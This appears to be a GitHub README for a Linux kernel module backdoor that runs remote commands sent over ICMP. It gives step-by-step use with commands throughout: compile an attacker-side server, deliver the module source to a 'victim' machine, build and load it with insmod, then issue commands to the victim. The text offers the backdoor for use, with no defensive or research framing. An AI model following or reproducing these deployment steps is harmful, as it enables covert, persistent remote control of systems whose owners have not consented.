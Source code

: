 # lkm-icmp

LKM ICMP is a linux kernel module conversion of my previous icmp backdoor made in C, this module provides a lkm backdoor that execute remote commands.

## Usage

First, you need to compile the server to send commands to victim

```bash
gcc server.c -o server -pthread
```

After you have the server, you need to delivery `icmpbackdoor.c` and `Makefile` to victim.

**In victim machine**

```bash
ls
icmpbackdoor.c Makefile

make ; insmod icmpbackdoor.ko
```

Now, to execute commands in victim, use the server

```bash
./server <target-ip>
# cmd
echo test > /tmp/test
```
